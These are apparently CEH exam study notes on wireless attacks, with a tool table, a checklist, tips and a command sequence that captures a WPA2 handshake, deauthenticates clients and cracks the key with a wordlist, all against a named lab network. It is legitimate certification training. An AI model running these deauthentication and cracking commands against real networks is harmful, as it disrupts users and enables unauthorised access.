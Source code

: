 
| Attack Type       | Tool        | Command Example              | Key Flags           |

| ----------------- | ----------- | ---------------------------- | ------------------- |

| Handshake Capture | airodump-ng | `--bssid`, `-w capture`      | Must use `wlan0mon` |

| WPA Cracking      | aircrack-ng | `-a2` for WPA, `-w` wordlist | Requires .cap file  |

| WPS Brute Force   | reaver      | `-K 1` for Pixie Dust attack | `-vv` for verbose   |

| Evil Twin         | airbase-ng  | `--essid` for clone name     | Channel must match  |

  

### Practical Exam Checklist

  

1. Put interface in monitor mode (`airmon-ng start wlan0`)

2. Capture WPA handshake

3. Perform dictionary attack

4. Test WPS vulnerability

5. Document all findings with screenshots

  

### Pro Tips:

  

- **Monitor Mode First**: Always start with `airmon-ng start wlan0`

- **Handshake Timing**: Use `--deauth` when clients are active

- **Exam Trick**: Look for WPS-enabled routers (QSS button)

- **Critical Files**: `capture-01.cap` for handshake analysis

  

### Real-World Exam Lab

```

# Task: Crack WPA2 network "CEH-Lab"

1. airmon-ng start wlan0

2. airodump-ng wlan0mon

3. airodump-ng --bssid AP:MAC --channel 6 -w capture wlan0mon

4. aireplay-ng --deauth 10 -a AP:MAC wlan0mon

5. aircrack-ng -a2 -w rockyou.txt capture-01.cap

```

